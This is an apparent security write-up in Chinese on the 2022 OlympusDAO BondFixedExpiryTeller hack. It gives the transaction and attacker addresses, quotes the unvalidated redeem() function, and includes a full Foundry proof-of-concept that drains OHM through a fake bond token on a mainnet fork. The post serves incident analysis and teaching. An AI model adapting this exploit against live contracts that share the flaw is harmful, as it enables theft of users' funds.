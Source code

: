 ```yaml
---
layout: post
category: attack_events
---
```

# OlympusDao@validation

## 事件背景

BondFixedExpiryTeller合约拥有的[OHM](https://etherscan.io/address/0x64aa3364f17a4d01c6f1751fd97c2bd3d7e7f1d5)代币被偷走

- 时间：2022.10.21
- 损失金额：$292k

## 交易

- 漏洞合约：[0x007FE7c498A2Cf30971ad8f2cbC36bd14Ac51156](https://etherscan.io/address/0x007fe7c498a2cf30971ad8f2cbc36bd14ac51156#code)
- 攻击事件hash：[0x3ed75df83d907412af874b7998d911fdf990704da87c2b1a8cf95ca5d21504cf](https://etherscan.io/tx/0x3ed75df83d907412af874b7998d911fdf990704da87c2b1a8cf95ca5d21504cf)
- 攻击合约：[0xa29E4fe451CCFa5e7DEF35188919ad7077A4DE8f](https://etherscan.io/address/0xa29E4fe451CCFa5e7DEF35188919ad7077A4DE8f#tokentxns)
- 黑客EOA地址：[0x443cf223e209E5A2c08114A2501D8F0f9Ec7d9Be](https://etherscan.io/address/0x443cf223e209e5a2c08114a2501d8f0f9ec7d9be)

## 资金流向

![image-20230829160738892](05.OlympusDao@validation/image-20230829160738892.png)

## 攻击过程

![image-20230829162313109](05.OlympusDao@validation/image-20230829162313109.png)

攻击合约获利之后，转回到EOA地址，然后去到[OlympusDAO](https://etherscan.io/address/0x245cc372c84b3645bf0ffe6538620b04a217988b#code)中调用`transfer()`

## 攻击详细分析

根据攻击过程可以知道，黑客利用合约，调用BondFixedExpiryTeller合约的`redeem()`就直接获利，因此，此方法肯定有明显的漏洞：此方法用于取款，烧掉用户在`token_`的资产，然后此合约转给用户`token_`的标的资产。但是，`token_`是可控的，并且没有做任何检验，这就意味着很容易就达到转账，仅仅只是实现`burn()`、`expiry()`和`underlying()`

```solidity
    function redeem(ERC20BondToken token_, uint256 amount_) external override nonReentrant {
        if (uint48(block.timestamp) < token_.expiry())
            revert Teller_TokenNotMatured(token_.expiry());
        token_.burn(msg.sender, amount_);
        token_.underlying().transfer(msg.sender, amount_);
    }
```

## 复现

[github](https://github.com/chen4903/BlockChainPoC/tree/master/test)

```solidity
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "./interface.sol";

contract Attacker is Test {

    IOHM public ohm = IOHM(address(0x64aa3364F17a4D01c6f1751Fd97C2BD3D7e7f1D5));
    IBondFixedExpiryTeller public BondFixedExpiryTeller = IBondFixedExpiryTeller(address(0x007FE7c498A2Cf30971ad8f2cbC36bd14Ac51156));

     function setUp() public {
        vm.createSelectFork("mainnet", 15_794_363);

        vm.label(address(ohm), "OHM");
        vm.label(address(BondFixedExpiryTeller), "BondFixedExpiryTeller");
        vm.label(address(this), "attackerContract");
    }

    function test_Exploit() public {
        console.log("[before] address(this) OHM balance",ohm.balanceOf(address(this)));

        uint256 amountToHack = ohm.balanceOf(address(BondFixedExpiryTeller));
        BondFixedExpiryTeller.redeem(address(this), amountToHack);

        console.log("[after] address(this) OHM balance",ohm.balanceOf(address(this)));

        assertEq(amountToHack, ohm.balanceOf(address(this)));
    }

    function expiry() public returns(uint256){
        return 0;
    }

    function burn(address,uint256) public returns(bool){
        return true;
    }

    function underlying() public returns(address){
        return address(ohm);
    }

}
```

## 建议

如果参数是外部可控的，一定要进行检验















